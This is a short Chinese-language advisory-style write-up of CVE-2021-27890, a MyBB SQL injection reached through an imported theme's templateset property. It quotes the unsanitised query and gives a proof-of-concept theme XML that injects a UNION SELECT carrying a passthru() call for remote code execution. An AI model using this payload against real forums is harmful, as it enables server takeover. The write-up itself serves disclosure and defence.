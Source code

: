 # MyBB sql注入导致的远程代码执行 (CVE-2021-27890)

MyBB在读取模板属性templateset的时候会进行SQL查询操作，而templateset并没有经过任何预处理，因此导致SQL注入。

影响版本

1.8.16 <= MyBB <= 1.8.25

Mybb导入主题时可以解析xml文件，存储至数据库。在每次页面加载时，MyBB从数据库中获取所有可能的模板值，并存储在缓存中。提取所有模板值的SQL查询使用templateset属性，该属性未经处理就嵌入查询字符串中。因此，存在一个SQL注入漏洞：

```sql
$query = $db->simple_select("templates", "title,template",
    "title IN (''$sql) AND sid IN ('-2','-1','".$theme['templateset']."')",
    array('order_by' => 'sid', 'order_dir' => 'asc')
```

Poc：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<theme name="Default" version="1821">
   <properties>
      <templateset>') AND 1=0 UNION SELECT title, '${passthru(\'ls\')}' from mybb_templates -- </templateset>
   </properties>
</theme>
```

ref：

https://blog.sonarsource.com/mybb-remote-code-execution-chain